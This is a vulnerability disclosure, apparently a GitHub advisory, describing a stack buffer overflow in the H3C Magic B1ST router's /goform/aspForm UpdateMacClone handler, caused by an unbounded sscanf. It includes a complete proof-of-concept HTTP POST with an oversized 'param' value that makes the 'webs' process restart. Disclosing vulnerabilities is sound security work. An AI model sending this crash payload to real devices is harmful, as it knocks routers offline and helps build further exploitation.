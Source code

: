 ## Overview

> Vendor: H3C
> Product: Magic B1ST
> Version: H3C_Magic_B1STV100R012
> Type: Stack Overflow

## Vulnerability

In route`/goform/aspForm`, the value of the key `CMD` is `UpdateMacClone`, the program will go into the following handling function.

![image-20230610002554113](assets/image-20230610002554113.png)

First it get the value of the key `param`, then use `sscanf` to copy the the value of `param` to a array `v9` on the stack. The parameter `%s` of `sscanf` didn't limit the copy length.

![image-20230610002626040](assets/image-20230610002626040.png)

## PoC

```http
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1
Content-Length: 320
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.124.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.124.1/wan_new.asp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PSWMOBILEFLAG=true; USERLOGINIDFLAG=; LOGIN_PSD_REM_FLAG=
Connection: close

CMD=UpdateMacClone&param=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

## Result

the process `webs` restart

![image-20230610124202610](assets/image-20230610124202610.png)
